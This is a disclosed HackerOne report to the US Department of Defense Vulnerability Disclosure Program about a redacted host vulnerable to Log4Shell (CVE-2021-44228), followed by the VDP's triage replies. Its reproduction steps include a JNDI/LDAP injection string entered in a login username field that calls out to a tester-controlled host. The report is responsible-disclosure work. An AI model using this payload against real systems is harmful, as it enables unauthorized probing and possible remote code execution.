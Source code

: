 # ███ ████████ running a vulnerable log4j

## Report Details
- **Report ID**: 1438393
- **URL**: https://hackerone.com/reports/1438393
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2021-12-31T00:55:49.853Z
- **Disclosed**: 2022-01-19T19:35:32.091Z

## Reporter
- **Username**: alex_gaynor
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
#Report

**Description:**

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228

## Impact

Probably arbitrary code execution

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers
CVE-2021-44228

## Steps to Reproduce
1. Browse to https://██████████/█████████https%3A%2F%2F███%2F
2. Enter a `${jndi:ldap://dns-server-yoi-control/a}` into the username field
3. Enter a random password
4. Submit

Observe that a request was made to your DNS server. This strongly suggests a vulnerable log4j.

## Suggested Mitigation/Remediation Actions
Update log4j or disable jndi support.



#Activity Timeline

2021-12-10 18:16 (-0600) (comment)
Greetings from the Department of Defense (DoD),

Thank you for supporting the DoD Vulnerability Disclosure Program (VDP).

By submitting this report, you acknowledge understanding of, and agreement to, the DoD Vulnerability Disclosure Policy as detailed at @DeptofDefense.

The VDP Team will review your report to ensure compliance with the DoD Vulnerability Disclosure Policy.  If your report is determined to be out-of-scope, it will be closed without action.

We will attempt to validate in-scope vulnerability reports and may request additional information from you if necessary. We will forward reports with validated vulnerabilities to DoD system owners for their action.

Our goal is to provide you with status updates not less than every two weeks until the reported vulnerability is resolved.

Regards,

The VDP Team

---

2021-12-13 08:29 (-0600): @agent-l8 (report severity updated)
null

---

2021-12-13 08:29 (-0600): @agent-l8 (bug triaged)
Greetings,

We have validated the vulnerability you reported and are preparing to forward this report to the affected DoD system owner for resolution.

Thank you for bringing this vulnerability to our attention!

We will endeavor to answer any questions the system owners may have regarding this report; however, there is a possibility we will need to contact you if they require more information to resolve the vulnerability.

You will receive another status update after we have confirmed your report has been resolved by the system owner. If you have any questions, please let me know.

Thanks again for supporting the DoD Vulnerability Disclosure Program.

Regards,

The VDP Team

---



## Attachments
No attachments

